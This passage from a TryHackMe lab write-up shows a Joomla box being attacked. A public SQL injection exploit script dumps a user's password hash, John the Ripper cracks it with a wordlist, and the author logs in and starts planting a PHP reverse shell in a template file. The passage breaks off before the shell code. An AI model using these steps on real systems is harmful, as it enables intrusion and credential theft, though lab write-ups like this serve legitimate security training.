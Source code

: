 There is a python code available to exploit this vulnerability.

>https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py

```
┌──(root㉿kali)-[~/tryhackme]
└─# ./joomblah.py http://10.10.59.64/   
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

We found a user ```jonah``` with a password hash. Let's crack the hash using John The Ripper. It takes quite some time to crack the password.

```
┌──(root㉿kali)-[~/tryhackme]
└─# cat hash.txt
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm

┌──(root㉿kali)-[~/tryhackme]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)     
1g 0:00:08:37 DONE (2023-03-20 01:18) 0.001933g/s 90.54p/s 90.54c/s 90.54C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Let's login to Joomla using the credentials ```jonah``` and ```spiderman123```.

Upon navigating to the templates section and clicking on templates, we can see the templates that are being used. In each template, we can see some php files. Let's try to get a php reverse shell using those. Navigte to index.php file in protostar template and replace the code with the following php code.
